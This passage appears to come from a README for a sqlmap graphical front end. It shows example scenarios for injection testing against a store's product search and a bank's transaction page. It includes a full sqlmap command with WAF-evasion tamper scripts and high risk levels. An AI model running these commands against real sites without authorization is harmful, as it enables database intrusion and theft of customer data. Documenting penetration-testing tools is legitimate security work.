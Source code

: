### Scenario 2: E-commerce Product Catalog
**Target:** Online store product search functionality
**Vulnerability:** Blind boolean-based injection with WAF

**Configuration:**
```
Target Tab:
├── URL: https://store.company.com/products.php?category=electronics&price_max=1000
├── Method: GET
├── Random Agent: ✓
├── Delay: 3
└── Timeout: 30

Injection Tab:
├── Testable Parameters: category,price_max
├── Tamper Scripts:
│   ├── space2comment
│   ├── randomcase
│   └── apostrophemask
├── DBMS: PostgreSQL
└── Invalid Logical: ✓

Detection Tab:
├── Level: 4
├── Risk: 3
├── Techniques: B (Boolean-based only)
├── Time Delay: 1
└── Retries: 3

Request Tab:
├── Proxy: http://127.0.0.1:8080
├── Chunked: ✓
└── Keep Alive: ✓
```

**Generated Command:**
```bash
sqlmap -u "https://store.company.com/products.php?category=electronics&price_max=1000" --random-agent --delay=3 --timeout=30 -p category,price_max --tamper=space2comment,randomcase,apostrophemask --dbms=postgresql --invalid-logical --level=4 --risk=3 --technique=B --time-sec=1 --retries=3 --proxy=http://127.0.0.1:8080 --chunked --keep-alive --batch
```

## 🏦 Financial Institution Testing

### Scenario 3: Banking Transaction History
**Target:** Customer transaction viewing system
**Vulnerability:** Time-based injection in account history

**Configuration:**
```
Target Tab:
├── URL: https://bank.com/transactions.php?account=123456&date_from=2023-01-01
├── Method: GET
├── Cookie: session=bank_customer_session
├── Certificate: /path/to/client.crt
└── Key: /path/to/client.key

Detection Tab:
├── Level: 5
├── Risk: 3
├── Techniques: T (Time-based only)
├── Time Delay: 5
└── Retries: 5
```